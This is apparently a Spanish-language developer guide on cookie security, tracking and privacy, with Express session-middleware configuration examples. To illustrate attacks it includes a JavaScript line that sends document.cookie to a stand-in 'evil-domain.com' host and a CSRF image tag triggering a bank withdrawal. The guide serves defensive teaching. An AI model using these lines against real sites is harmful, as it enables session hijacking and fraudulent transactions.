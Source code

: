 # Cookies - Seguridad, Seguimiento y Privacidad

## Seguridad

### Secuestro de Sesión y XSS

Las cookies se usan a menudo para identificar un usuario y su sesión autenticada. Por lo tanto, robar una cookie de una aplicación web puede permitir el secuestro de la sesión autenticada del usuario. Las maneras más comunes de robar cookies incluyen *Ingeniería Social* o aprovecharse de una vulnerabilidad XSS en la aplicación.

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
El atributo ***HttpOnly*** en una cookie puede ayudar a mitigar este ataque al prevenir el acceso al valor de la cookie mediante JavaScript.

### Cross-site Request Forgery (CSRF)

El siguiente es un ejemplo de CSRF. En esta situación, alguien incluye una imagen que en realidad no es una imagen, en su lugar es una petición al servidor de tu banco para retirar dinero:

```
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

Ahora, si has iniciado sesión en tu banco y tus cookies son todavía válidas (y no hay ninguna otra validación), transferirás dinero cuando cargues el HTML con la imagen. Hay algunas técnicas para prevenirlo:

 * Como XSS, el filtro de entrada (input filtering) es importante.
 * Siempre debe haber una confirmación requerida para cualquier acción sensible.
 * Las cookies usadas para acciones sensibles deben tener un tiempo corto de vida.

## Utilizar las cookies de forma segura

Para garantizar que las cookies no abran la aplicación para ataques, no utilice el nombre de cookie de sesión predeterminado y establezca las opciones de seguridad de las cookies correctamente.

Hay dos módulos de sesión de cookies de middleware principales:

 * ***express-session***, que sustituye el middleware express.session incorporado en Express 3.x.
 * ***cookie-session***, que sustituye el middleware express.cookieSession incorporado en Express 3.x.

La principal diferencia entre los dos módulos es cómo guardan los datos de sesión de las cookies. El middleware ***express-session*** almacena los datos de sesión en el servidor; sólo guarda el ID de sesión en la propia cookie, no los datos de sesión. De forma predeterminada, utiliza el almacenamiento en memoria y no está diseñado para un entorno de producción. En la producción, deberá configurar un almacenamiento de sesión escalable; consulte la lista de almacenes de sesión compatibles.

Por su parte, el middleware ***cookie-session*** implementa un almacenamiento basado en cookies: serializa la sesión completa en la cookie, en lugar de sólo una clave de sesión. Utilícelo sólo cuando los datos de sesión sean relativamente pequeños y fácilmente codificables como valores primitivos (en lugar de objetos). Aunque se supone que los navegadores pueden dar soporte a 4096 bytes por cookie como mínimo, para no exceder el límite, no supere un tamaño de 4093 bytes por dominio. Asimismo, asegúrese de que los datos de la cookie estén visibles para el cliente, para que si se deben proteger u ocultar por cualquier motivo, se utilice mejor la opción express-session.

### No utilizar el nombre de cookie de sesión predeterminado

Si utiliza el nombre de cookie de sesión predeterminado, la aplicación puede quedar abierta a los ataques. El problema de seguridad que supone es similar a **X-Powered-By**: un posible atacante puede utilizarlo para firmar digitalmente el servidor y dirigir los ataques en consecuencia.

Para evitar este problema, utilice nombres de cookie genéricos, por ejemplo, con el middleware express-session:

```var session = require('express-session');
app.set('trust proxy', 1) // trust first proxy
app.use( session({
   secret : 's3Cur3',
   name : 'sessionId',
  })
);
```

### Establecer las opciones de seguridad de las cookies
Establezca las siguientes opciones de cookies para mejorar la seguridad:

 * ***secure*** - Garantiza que el navegador sólo envíe la cookie a través de HTTPS.
 * ***httpOnly*** - Garantiza que la cookie sólo se envíe a través de HTTP(S), no a través de JavaScript de cliente, para la protección contra ataques de scripts entre sitios.
 * ***domain*** - Indica el dominio de la cookie; utilícelo para compararlo con el dominio del servidor donde se está solicitando el URL. Si coinciden, compruebe el atributo de vía de acceso a continuación.
 * ***path*** - Indica la vía de acceso de la cookie; utilícela para compararla con la vía de acceso de la solicitud. Si esta y el dominio coinciden, envíe la cookie en la solicitud.
 * ***expires*** - Se utiliza para establecer la fecha de caducidad de las cookies persistentes.
A continuación, se muestra un ejemplo de uso del middleware cookie-session:

```var session = require('cookie-session');
var express = require('express');
var app = express();

var expiryDate = new Date( Date.now() + 60 * 60 * 1000 ); // 1 hour
app.use(session({
  name: 'session',
  keys: ['key1', 'key2'],
  cookie: { secure: true,
            httpOnly: true,
            domain: 'example.com',
            path: 'foo/bar',
            expires: expiryDate
          }
  })
);
```

## Seguimiento y Privacidad

Las cookies tienen un dominio asociado a cada una. Si este dominio es el mismo que el dominio de la página en la que te encuentras, la cookie se denomina ***first-party***. Si el dominio no coincide se denomina ***third-party***. Mientras las **first-party cookies** se mandan solamente al servidor que las crea, una página puede contener imágenes u otros componentes almacenados en servidores de otros dominios. Las cookies se mandan a través de estos terceros se usan principalmente para publicidad y seguimiento a través a de la red.

### Do-Not-Track

No hay requerimientos legales o tecnológicos para su uso, pero el encabezado DNT puede ser usado para indicar a la página que debe deshabilitar su seguimiento o su seguimiento de usuario a través de sitios para un usuario individual.

### Zombie cookies and Evercookies
Una aproximación más radical a las cookies son las cookies **zombie** o **Evercookies**, que son recreadas después de ser borradas y son intencionalmente difíciles de borrar para siempre. Usan la API de almacenamiento web, objetos locales compartidos Flash y otras técnicas para recrearse cuando detecten la ausencia la cookie.

